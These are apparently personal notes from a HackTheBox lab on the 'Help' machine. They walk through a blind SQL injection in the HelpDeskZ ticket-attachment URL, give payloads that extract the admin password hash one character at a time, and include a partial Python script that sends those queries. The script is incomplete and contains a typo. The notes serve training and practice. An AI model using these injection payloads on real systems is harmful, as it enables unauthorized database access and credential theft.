 
- **NOTE in burpsuite can select cookie and press Ctrl+Shift+U to URL Decode cookie**
- login the helpdesk with above credentials, turn on burpsuite and try to catch one of the image attachments in burpsuite
	![[Pasted image 20250322164709.png]]
	- also right click image attachment and copy link address:
		- http://help.htb/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=5&param[]=10
	- test for sqli
		- pass and 1=1 -- with the above url i.e:
		- http://help.htb/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=5&param[]=10 and 1=1 --
			- send to repeater and send
			- will show a good response
			- if we add 2=1 it will return page not found so its some sort of boolean thing
		- **in the helpdeskz github we see under controllers>staff>login_action.php that there is a table called staff with columns username and password. WE ALSO SEE IT USES SHA1 which is 40 characters long**
		- to check admin:
			- add this to url:
				- and (select (username) from staff limit 0,1) = 'admin'-- -
				- we get is true. although we can try other usernames to see how it acts when false
			- now we try to find password and email:
				- we use substr() function to loop character by character as we need to brute force the password with hex chracters [abcdef0123456789] such that when it does match it returns the character. this needs to be in a loop so we can get the full password of 40 characters (as its sha1)
				- to try (this is not ideal as we dont know the first character but still) add this to url and it should return true i.e the attachment:
					- and substr((select password from staff limit 0,1),1,1) = 'd'-- -
				- So we need to make a script :
					```python
mport requests
def blindInject(query):
    url = f"http://help.htb/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6 {query}"
    cookies = {'PHPSESSID':'ll7c00m03d6nh99i6045migku3'}#,'usrhash':'0Nwx5jIdx+P2QcbUIv9qck4Tk2feEu8Z0J7rPe0d70BtNMpqfrbvecJupGimitjg3JjP1UzkqYH6QdYSl1tVZNcjd4B7yFeh6KDrQQ/iYFsjV6wVnLIF/aNh6SC24eT5OqECJlQEv7G47Kd65yVLoZ06smnKha9AGF4yL2Ylo+HIKS3/iW3kiF8K/Ue8Cb5I4zT2ohgObsSGs6UnIhb2aA=='}
    response = requests.get(url,cookies=cookies)
#    if "404" in response.content
#        print ("hi")
#print(blindInject("2=1"))
    rContentType = response.headers["Content-Type"]
    if rContentType == 'image/jpeg':
#        print("WOOT")
        return True
    else:
#        print("NOOB")
        return False

